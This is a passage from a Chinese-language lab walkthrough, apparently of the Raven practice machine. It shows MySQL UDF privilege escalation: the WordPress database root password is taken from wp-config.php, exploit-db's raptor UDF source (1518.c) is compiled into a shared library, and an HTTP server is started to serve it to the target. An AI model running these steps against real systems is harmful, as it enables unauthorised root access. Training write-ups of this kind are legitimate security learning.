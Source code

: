 

### （3）Mysql UDF提权

wordpress下有wordpress的配置文件wp-config.php

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230628194359329.png)

数据库账号root，密码R@v3nSecurity

登录mysql:

```sh
mysql -u root -pR@v3nSecurity
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230628194517437.png)

且Server version(Mysql)版本为5.5.60。可以用udf提权

> udf提权：UDF提权前提是知道数据库root密码
>
> * 一般来说mysql>=5.1.4 上传udf到mysql\lib\plugin
> * 如果mysql<5.1.4 别想了，遇不到



查找对应的exp：

```sh
searchsploit mysql
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230628200305919.png)

把exp复制到当前路径，并gcc编译

```bash
cp /usr/share/exploitdb/exploits/linux/local/1518.c ./
gcc -g -c 1518.c
gcc -g -shared -o  raptor_udf.so 1518.o -lc
```

> gcc各个参数说明：
>
> -g 生成调试信息
>
> -shared 生成动态链接库(.so)而不是可执行文件。用以在各个程序共享
>
> -o 输出文件 1518.o输入文件
>
> -lc 连接c标准库，提供标准C库函数支持



在kali上起一个web服务，在靶机上下载so

```sh
python3 -m http.server 8888
或者
python2 -m SimpleHTTPServer 8888
```
